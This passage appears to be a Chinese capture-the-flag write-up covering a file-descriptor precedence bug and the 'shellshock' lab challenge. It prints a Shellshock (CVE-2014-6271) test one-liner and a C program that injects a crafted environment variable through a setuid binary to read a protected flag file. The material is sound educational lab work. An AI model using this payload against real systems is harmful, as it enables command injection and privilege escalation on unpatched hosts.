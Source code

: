 有问题的代码为：

```
fd=open("/tmp/xx.txt",O_RDONLY,0400) < 0
```

&lt;的优先级大于=，所以在打开文件后现执行open(“/tmp/xx.txt”,O_RDONLY,0400) &lt; 0 ,正常open时返回的值大于0， 正数&lt;0 比较之后为0，然后再赋值给fd，fd=0时对应着标准输入，所以后面会从标准输入中读取password，而不是从文件中读取。

## 10.shellshock

这题考察shellshock漏洞，ssh登入发现目录下有一个有漏洞的bash，shellshock被设置了setuid位：

```
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

先来看看bash shellshock漏洞（参考： [http://drops.wooyun.org/papers/3268](http://drops.wooyun.org/papers/3268) ， [http://www.tuicool.com/articles/fEJbQn](http://www.tuicool.com/articles/fEJbQn) ）：

如果环境变量的值以字符“() {”开头，那么这个变量就会被当作是一个导入函数的定义（Export），这种定义只有在shell启动的时候才生效。BASH处理以“(){”开头的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令。目录下有一个bash，输入：

```
env x='() { :;}; echo vulnerable' ./bash -c 'echo hello'
```

输出vulnerable  hello,表示这个目录下的bash存在bash shellshock漏洞。构造特定的环境变量，让有漏洞的bash执行输出flag的命令：

```
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include <unistd.h>

int main() {
    char *envp[2]={0};
    envp[0]="KKK=() { :; }; /home/shellshock/bash -c \"cat /home/shellshock/flag\"";
    execve("/home/shellshock/shellshock",NULL,envp);
    return 0;
}
```

输出flag：only if I knew CVE-2014-6271 ten years ago..!!

## 11.coin1

题目如下：

![](http://img2.tuicool.com/E3AZbuR.png!web)
